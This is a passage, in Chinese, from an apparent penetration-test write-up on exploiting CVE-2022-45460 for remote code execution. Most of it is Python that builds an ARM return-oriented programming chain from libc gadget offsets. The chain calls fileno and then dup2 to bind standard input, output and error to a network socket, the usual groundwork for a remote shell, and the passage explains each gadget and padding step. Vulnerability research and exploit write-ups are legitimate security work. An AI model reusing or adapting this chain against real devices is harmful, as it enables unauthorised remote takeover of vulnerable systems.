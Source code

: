 ![image3](一次渗透过程中的CVE-2022-45460撞洞RCE/image3.png)

唯一的要求是在栈上添加一些填充，以适应函数尾声的操作。对于 `fileno` 函数来说，这意味着总共需要5 x 8字节。事实证明，这非常有用，因为这让我可以将这些寄存器设置为任意值。

我继续将各个部分组合起来。按照计划，我首先调用 `fileno` 函数。

```python
p = b""
p += p32(libc_base + 0xf964)  # mov r0, r3; pop {r4, pc}
p += b"XXXX"  # r4 padding
p += p32(libc_base + 0x3102c + 0x4)  # fileno

```

第一个gadget将套接字引用 `socket_stream` 移动到R0中，以确保它作为参数传递给 `fileno` 函数。调用之后，添加一些填充以正确处理函数尾声。`ldmia` 结构可以看作与前面看到的 `pop` 类似。寄存器R5稍后会用到，所以我提前将 `dup2` 函数的地址存储在那里。

```python
# fileno epilogue: ldmia sp!,{r4,r5,r6,r7,r8,pc}
p += b"XXXX"  # r4 padding
p += p32(libc_base + 0xce5c + 0x4)  # r5 -> dup2
p += b"XXXX"  # r6 padding
p += b"XXXX"  # r7 padding
p += b"XXXX"  # r8 padding

```

接下来是调用 `dup2` 函数。为了实现目标，这个函数需要针对标准输入、标准输出和标准错误各调用一次。对于这三次调用，R0始终应该设置为通过 `fileno` 函数获取的文件描述符，而R1则从0开始，然后是1，最后是2。第一次调用时R1已经被设置为0，所以这次调用无需额外操作。

```python
p += p32(libc_base + 0xce5c + 0x4)  # dup2, r1 = 0
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX"  # r7 padding

```

对于第二次调用，我找到了一个gadget，它在跳转到我已经存储 `dup2` 函数地址的R5之前，会将1移动到R1中。

```python
p += p32(libc_base + 0x1cdcc)  # mov r1, #1; mov r2, r6; blx r5
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX"  # r7

```

